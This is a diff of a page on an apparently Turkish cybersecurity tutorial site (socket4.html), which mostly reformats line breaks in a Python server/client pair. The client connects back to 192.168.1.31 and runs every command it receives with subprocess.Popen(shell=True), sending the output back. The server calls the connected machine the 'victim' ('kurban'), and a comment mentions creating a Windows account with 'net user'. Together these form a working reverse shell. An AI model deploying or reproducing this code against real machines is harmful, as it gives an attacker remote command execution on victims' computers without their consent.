

Before and after one commit to emredurmaz4/cosmosofcyberspace.github.io, a Jekyll site: the page socket4.html, which Jekyll copies as it is, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update socket4.html

```diff
--- a/socket4.html
+++ b/socket4.html
@@ -14,109 +14,110 @@
 
 
 <span style="background:#008000">"Bağlantı testi için server.py"</span></br>
+ </br>
+####################################################################</br>
+Gelen veriyi işlemek ve cmd komutlarını çalıştırmak   server.py  ##</br>
+####################################################################</br>
+</br>
+<span style="background:#8600b3">host="192.168.1.31"</span></br>
+<span style="background:#8600b3">port=20000</span></br>
+<span style="background:#8600b3">s=socket.socket()</span></br>
+</br>
+<span style="background:#8600b3">def bagla():</span></br>
+<span style="background:#8600b3">    try:</span></br>
+<span style="background:#8600b3">        s.bind((host,port))</span></br>
+<span style="background:#8600b3">        s.listen()</span></br>
+</br></br>
+<span style="background:#8600b3">    except:</span></br>
+<span style="background:#8600b3">        print("baglantı hatası")</span>
+<span style="background:#8600b3">        bagla()</span></br>
+</br></br>
 
-####################################################################
-Gelen veriyi işlemek ve cmd komutlarını çalıştırmak   server.py  ##
-####################################################################
+<span style="background:#8600b3">def kabul_et():</span></br>
+<span style="background:#8600b3">    print("Baglantı bekleniyor")</span></br>
+<span style="background:#8600b3">    baglanti,adres=s.accept()</span></br>
+<span style="background:#8600b3">    print("Bağlantı gerçekleşti kurban ip:",adres[0],"kurban port:",adres[1])</span></br>
+<span style="background:#8600b3">    komut_yolla(baglanti)</span></br>
+<span style="background:#8600b3">    baglanti.close()</span> #serverdan "quit" girersen while döngüsü break olacak ve bu satıra gelecek,daha sonra baglanti kapanacak</br>
+    </br></br>
 
-<span style="background:#8600b3">host="192.168.1.31"
-<span style="background:#8600b3">port=20000
-<span style="background:#8600b3">s=socket.socket()
+#serverdan cliente veri(komut) yollamak için sonsuz döngülü bi blok yaratalım</br>
+<span style="background:#8600b3">def komut_yolla(baglanti):</span></br>
+<span style="background:#8600b3">    while True:</span></br>
+<span style="background:#8600b3">        cmd=input("Komut gir:")</span></br>
+<span style="background:#8600b3">        if cmd=="quit":</span>  # eğer quit girmişsem döngüyü sonlandır</br>
+<span style="background:#8600b3">            break</span> #eğer serverdan "quit" girersen komut_yolla() fonksiyonundan çıkması için break kullanıldı</br>
+</br></br>
+<span style="background:#8600b3">        if len(cmd)>0:</span></br>
+            #serverdan girdiğim veriyi cliente yollayacağım</br>
+            #cmd girdisini stringden alıp byte a dönüştürmem gerekiyor</br>
+            #yani biz soket üzerinde veri alıp yollarken bunu bytelar üzerinden yapıyoruz</br>
+            #serverdan cliente veriyi yollarken "baglati" değişkeni üzerinden yollarız</br>
+            #Cünkü "baglanti" benim client ile ilişkimi temsil ediyor</br>
+<span style="background:#8600b3">            baglanti.send(cmd.encode("utf-8"))</span></br>
+<span style="background:#8600b3">            cevap=baglanti.recv(4096).decode("utf-8")</span></br>
+<span style="background:#8600b3">            print(cevap)</span></br>
+            </br></br>
+<span style="background:#8600b3">bagla()</span></br>
+<span style="background:#8600b3">kabul_et()</span></br></br>
 
-<span style="background:#8600b3">def bagla():
-<span style="background:#8600b3">    try:
-<span style="background:#8600b3">        s.bind((host,port))
-<span style="background:#8600b3">        s.listen()
+########################################################################################################################################################</br>
+########################################################################################################################################################</br>
+</br>
+####################################################################</br>
+#Gelen veriyi işlemek ve cmd komutlarını çalıştırmak   client.py  ##</br>
+####################################################################</br>
 
-<span style="background:#8600b3">    except:
-<span style="background:#8600b3">        print("baglantı hatası")
-<span style="background:#8600b3">        bagla()
+</br></br>
 
-<span style="background:#8600b3">def kabul_et():
-<span style="background:#8600b3">    print("Baglantı bekleniyor")
-<span style="background:#8600b3">    baglanti,adres=s.accept()
-<span style="background:#8600b3">    print("Bağlantı gerçekleşti kurban ip:",adres[0],"kurban port:",adres[1])
-<span style="background:#8600b3">    komut_yolla(baglanti)
-<span style="background:#8600b3">    baglanti.close() #serverdan "quit" girersen while döngüsü break olacak ve bu satıra gelecek,daha sonra baglanti kapanacak
+<span style="background:#8600b3">import socket</span></br>
+<span style="background:#8600b3">import os</span></br>
+<span style="background:#8600b3">import subprocess</span></br>
+<span style="background:#8600b3">s=socket.socket()</span></br></br>
+
+<span style="background:#8600b3">s.connect(("192.168.1.31",15555))</span></br>
+</br>
+<span style="background:#8600b3">while True:</span></br>
+<span style="background:#8600b3">    veri=s.recv(1024)</span></br>
+<span style="background:#8600b3">    if veri[:2].decode("utf-8")=="cd":</span></br>
+<span style="background:#8600b3">        try:</span></br>
+<span style="background:#8600b3">            os.chdir(veri[3:].decode("utf-8"))</span></br>
+<span style="background:#8600b3">            s.send(os.getcwd().encode("utf-8"))</span>  </br>
+<span style="background:#8600b3">        except FileNotFoundError:</span></br>
+<span style="background:#8600b3">            s.send("Dosya bulunamadı...".encode("utf-8"))</span></br>
+<span style="background:#8600b3">    else:</span></br>
+</br>
+<span style="background:#8600b3">        if len(veri)>0:</span></br>
+            #eğer serverdan bir girdi varsa</br>
+</br>
+            #serverdan girilen komutları komut sisteminde çalıştırabilmek için</br>
+            #subprocess adlı modülü çalıştırmak gerekiyor,bu modül sayesinde</br>
+            #hem serverdan girilen komutları komut sisteminde çalıştırabileceğiz</br>
+            #hemde çıktıyı servera yollayabileceğiz.</br>
+            #subprocess modülünün Popen() clasını kullanacağız</br>
+<span style="background:#8600b3">            cmd=subprocess.Popen(veri.decode("utf-8"),shell=True,stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE)</span></br>
+            #komut sisteminin arka planında çalışacak</br>
+            #2.parametre shell=True,komut sisteminde bu komutu çalıştırmaya izin verecek</br>
+            #stdout ve stderr ı okuyup server a yollamamız lazım</br>
+<span style="background:#8600b3">            output=cmd.stdout.read() + cmd.stderr.read()</span></br>
+            #output ı string e dönüştürelim</br>
+<span style="background:#8600b3">            output_str=str(output,encoding="cp857")  #####------------------------------------------------>>>>> utf-8 değil cp857 yapılacak nokta</br>
+            #her komutu çalıştırdıktan sonra karşı tarafa bulunduğumuz dizini yollamak istiyorum</br>
+<span style="background:#8600b3">            konum=os.getcwd()</span> #string formatında olduğumuz dizini veriyor</br>
+            #Ben bu ikisini yani "output" ve "konum"  u birleştirip server a yollamak istiyorum</br>
+            #1. parametre toplanacak stringler  2.parametre hangi biçimde kodlayacağımızı belirtiyoruz</br>
+<span style="background:#8600b3">            s.send(str.encode(output_str+"\n"+konum,encoding="utf-8"))</span></br>
+</br></br>
+            #komut a "net user nuri 12345" yazdın izin vermedi ve türkçe çıktı verdi bu utf8 ile kodlanmamıştır cp857 ile kodlanmıştır</br>
+            #net user nuri 12345 komutunu serverdan yazdıktan sonra benim client çöküyor UnicodeDecodeError hatası alıyoruz bunu</br>
+            #almamamız için cp857 yapmam gerekiyor</br>
+
+  </br>
+</br>
+<span style="background:#8600b3">s.close()</span></br></br>
 
 
-#serverdan cliente veri(komut) yollamak için sonsuz döngülü bi blok yaratalım
-<span style="background:#8600b3">def komut_yolla(baglanti):
-<span style="background:#8600b3">    while True:
-<span style="background:#8600b3">        cmd=input("Komut gir:")
-<span style="background:#8600b3">        if cmd=="quit":  # eğer quit girmişsem döngüyü sonlandır
-<span style="background:#8600b3">            break #eğer serverdan "quit" girersen komut_yolla() fonksiyonundan çıkması için break kullanıldı
-
-<span style="background:#8600b3">        if len(cmd)>0:
-            #serverdan girdiğim veriyi cliente yollayacağım
-            #cmd girdisini stringden alıp byte a dönüştürmem gerekiyor
-            #yani biz soket üzerinde veri alıp yollarken bunu bytelar üzerinden yapıyoruz
-            #serverdan cliente veriyi yollarken "baglati" değişkeni üzerinden yollarız
-            #Cünkü "baglanti" benim client ile ilişkimi temsil ediyor
-<span style="background:#8600b3">            baglanti.send(cmd.encode("utf-8"))
-<span style="background:#8600b3">            cevap=baglanti.recv(4096).decode("utf-8")
-<span style="background:#8600b3">            print(cevap)
-
-<span style="background:#8600b3">bagla()
-<span style="background:#8600b3">kabul_et()
-
-########################################################################################################################################################
-########################################################################################################################################################
-
-####################################################################
-#Gelen veriyi işlemek ve cmd komutlarını çalıştırmak   client.py  ##
-####################################################################
-
-
-
-<span style="background:#8600b3">import socket
-<span style="background:#8600b3">import os
-<span style="background:#8600b3">import subprocess
-<span style="background:#8600b3">s=socket.socket()
-
-<span style="background:#8600b3">s.connect(("192.168.1.31",15555))
-
-<span style="background:#8600b3">while True:
-<span style="background:#8600b3">    veri=s.recv(1024)
-<span style="background:#8600b3">    if veri[:2].decode("utf-8")=="cd":
-<span style="background:#8600b3">        try:
-<span style="background:#8600b3">            os.chdir(veri[3:].decode("utf-8"))
-<span style="background:#8600b3">            s.send(os.getcwd().encode("utf-8"))
-<span style="background:#8600b3">        except FileNotFoundError:
-<span style="background:#8600b3">            s.send("Dosya bulunamadı...".encode("utf-8"))
-<span style="background:#8600b3">    else:
-
-<span style="background:#8600b3">        if len(veri)>0:
-            #eğer serverdan bir girdi varsa
-
-            #serverdan girilen komutları komut sisteminde çalıştırabilmek için
-            #subprocess adlı modülü çalıştırmak gerekiyor,bu modül sayesinde
-            #hem serverdan girilen komutları komut sisteminde çalıştırabileceğiz
-            #hemde çıktıyı servera yollayabileceğiz.
-            #subprocess modülünün Popen() clasını kullanacağız
-<span style="background:#8600b3">            cmd=subprocess.Popen(veri.decode("utf-8"),shell=True,stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE)
-            #komut sisteminin arka planında çalışacak
-            #2.parametre shell=True,komut sisteminde bu komutu çalıştırmaya izin verecek
-            #stdout ve stderr ı okuyup server a yollamamız lazım
-<span style="background:#8600b3">            output=cmd.stdout.read() + cmd.stderr.read()
-            #output ı string e dönüştürelim
-<span style="background:#8600b3">            output_str=str(output,encoding="cp857")  #####------------------------------------------------>>>>> utf-8 değil cp857 yapılacak nokta
-            #her komutu çalıştırdıktan sonra karşı tarafa bulunduğumuz dizini yollamak istiyorum
-<span style="background:#8600b3">            konum=os.getcwd() #string formatında olduğumuz dizini veriyor
-            #Ben bu ikisini yani "output" ve "konum"  u birleştirip server a yollamak istiyorum
-            #1. parametre toplanacak stringler  2.parametre hangi biçimde kodlayacağımızı belirtiyoruz
-<span style="background:#8600b3">            s.send(str.encode(output_str+"\n"+konum,encoding="utf-8"))
-
-            #komut a "net user nuri 12345" yazdın izin vermedi ve türkçe çıktı verdi bu utf8 ile kodlanmamıştır cp857 ile kodlanmıştır
-            #net user nuri 12345 komutunu serverdan yazdıktan sonra benim client çöküyor UnicodeDecodeError hatası alıyoruz bunu
-            #almamamız için cp857 yapmam gerekiyor
-
-
-
-<span style="background:#8600b3">s.close()</span></br>
-
-
-<p style="color:MediumSeaGreen;">Kaynak kod:<a href="https://github.com/nuriyavuz/PythonSocketTest">https://github.com/nuriyavuz/PythonSocketTest</a></p>
+<p style="color:MediumSeaGreen;">Kaynak kod:<a href="https://github.com/nuriyavuz/PythonSocketTest">https://github.com/nuriyavuz/PythonSocketTest</a></p></br>
 
 </br>
 </br>
```
